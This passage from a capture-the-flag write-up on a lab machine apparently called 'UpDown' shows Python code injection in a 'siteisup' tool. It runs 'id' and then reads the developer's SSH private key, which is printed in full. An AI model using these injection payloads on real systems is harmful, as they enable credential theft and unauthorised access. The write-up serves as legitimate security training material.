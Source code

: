 ```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```

So we have to find another way. First option? Try to grab any id_rsa file:


```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('cat /home/developer/.ssh/id_rsa')
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
EAAAGBAJrweNE1jPHrtJ+hTs4sUwNaUN/UqcGMq2Aoyqw7afIORNORBHCcP0taovTxaDb8
5Le1Mt/vusQ3feboAHbbkS+6swNN8UjZKp7dh4IygDzq+nLSLzA6YfCXgRdhfUsuF67Xwj
++vlqc5sU+7rbxg9DdQGN/hBkaTm+6ufV9KXD0ZyFJ8btrDfryF43xr6ogGKMzgeQ3l/K2
9m5Ioukt0NbTNVVA6Fu3AkW5wTIJZthVxCVPZRL/T8tg+AWrxb6FKrU/GgqLK6yr06QEJD
6734qEobSKaPeRn8segY9jCiekLoYiSvjts2JtM9ro4wl7jN1eCW9CNVHfqmvkLcU7DUFa
XCLnLdOsU31V3hLT04WiyOSpFxJcfk4MEdOt948EaX8dXlYCwscWJOQmqR7rtJ4VKSAlNR
V6+rVdrhNSyG+UyawiMeO/RJW3NTD6xgpLEFVfBHrCO5JOQNkq5zTMS3tnJCLEB0B8SHIr
wgiMweEfRWzinUismUx3mc4z8J1PhQAAAAMBAAEAAAGAMhM4KP1ysRlpxhG/Q3kl1zaQXt
b/ilNpa+mjHykQo6+i5PHAipilCDih5CJFeUggr5L7f06egR4iLcebps5tzQw9IPtG2TF+
ydt1GUozEf0rtoJhx+eGkdiVWzYh5XNfKh4HZMzD/sso9mTRiATkglOPpNiom+hZo1ipE0
NBaoVC84pPezAtU4Z8wF51VLmM3Ooft9+T11j0qk4FgPFSxqt6WDRjJIkwTdKsMvzA5XhK
rXhMhWhIpMWRQ1vxzBKDa1C0+XEA4w+uUlWJXg/SKEAb5jkK2FsfMRyFcnYYq7XV2Okqa0
NnwFDHJ23nNE/piz14k8ss9xb3edhg1CJdzrMAd3aRwoL2h3Vq4TKnxQY6JrQ/3/QXd6Qv
ZVSxq4iINxYx/wKhpcl5yLD4BCb7cxfZLh8gHSjAu5+L01Ez7E8MPw+VU3QRG4/Y47g0cq
DHSERme/ArptmaqLXDCYrRMh1AP+EPfSEVfifh/ftEVhVAbv9LdzJkvUR69Kok5LIhAAAA
wCb5o0xFjJbF8PuSasQO7FSW+TIjKH9EV/5Uy7BRCpUngxw30L7altfJ6nLGb2a3ZIi66p
0QY/HBIGREw74gfivt4g+lpPjD23TTMwYuVkr56aoxUIGIX84d/HuDTZL9at5gxCvB3oz5
VkKpZSWCnbuUVqnSFpHytRgjCx5f+inb++AzR4l2/ktrVl6fyiNAAiDs0aurHynsMNUjvO
N8WLHlBgS6IDcmEqhgXXbEmUTY53WdDhSbHZJo0PF2GRCnNQAAAMEAyuRjcawrbEZgEUXW
z3vcoZFjdpU0j9NSGaOyhxMEiFNwmf9xZ96+7xOlcVYoDxelx49LbYDcUq6g2O324qAmRR
RtUPADO3MPlUfI0g8qxqWn1VSiQBlUFpw54GIcuSoD0BronWdjicUP0fzVecjkEQ0hp7gu
gNyFi4s68suDESmL5FCOWUuklrpkNENk7jzjhlzs3gdfU0IRCVpfmiT7LDGwX9YLfsVXtJ
mtpd5SG55TJuGJqXCyeM+U0DBdxsT5AAAAwQDDfs/CULeQUO+2Ij9rWAlKaTEKLkmZjSqB
2d9yJVHHzGPe1DZfRu0nYYonz5bfqoAh2GnYwvIp0h3nzzQo2Svv3/ugRCQwGoFP1zs1aa
ZSESqGN9EfOnUqvQa317rHnO3moDWTnYDbynVJuiQHlDaSCyf+uaZoCMINSG5IOC/4Sj0v
3zga8EzubgwnpU7r9hN2jWboCCIOeDtvXFv08KT8pFDCCA+sMa5uoWQlBqmsOWCLvtaOWe
N4jA+ppn1+3e0AAAASZGV2ZWxvcGVyQHNpdGVpc3VwAQ==
-----END OPENSSH PRIVATE KEY-----
```
